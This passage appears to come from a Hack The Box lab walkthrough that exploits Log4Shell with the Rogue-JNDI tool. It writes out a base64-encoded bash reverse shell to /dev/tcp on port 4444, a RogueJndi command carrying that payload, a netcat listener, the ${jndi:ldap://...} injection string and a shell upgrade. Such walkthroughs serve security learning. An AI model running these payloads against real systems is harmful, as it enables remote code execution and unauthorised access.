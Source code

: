    This will create a `.jar` file in `rogue-jndi/target/` directory called `RogueJndi-1.1.jar`. Now we can construct our payload to pass into the `RogueJndi-1-1.jar` Java application.

8. We prepare the payload encoded by Base64 to prevent any encoding issue

   ```bash
   echo 'bash -c bash -i >&/dev/tcp/{TUN0_IP}/4444 0>&1' | base64
   ```

   > echo 'bash -c bash -i >&/dev/tcp/10.10.15.117/4444 0>&1' | base64
   >
   > YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTE3LzQ0NDQgMD4mMQo=

9. After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of
   the `--command` option and your `tun0` IP address to the `--hostname` option

   ```bash
   java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,{BASE64_Payload}}|{base64,-d}|{bash,-i}" --hostname "{TUN0_IP}"
   ```

   > java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTE3LzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.117"
   >
   > **It would not work if there is a ENTER character in between your command!**

10. Now that the server is listening locally on port `1389` 

    ![](../assets/img/htb-starting-point/58.png)

    Let's open another terminal and start a Netcat listener to capture the reverse shell

    ```bash
    nc -lvp 4444
    ```

11. Going back to our intercepted POST request, let's change the payload to`${jndi:ldap://{Tun0_IP}:1389/o=tomcat}` and click **Send**. The payload would be execute and thus connect a reversed shell.

    > "${jndi:ldap://10.10.15.117:1389/o=tomcat}"

12. We have captured reverse shell, then **upgrade** our shell

    ```bash
    script /dev/null -c bash
    ```
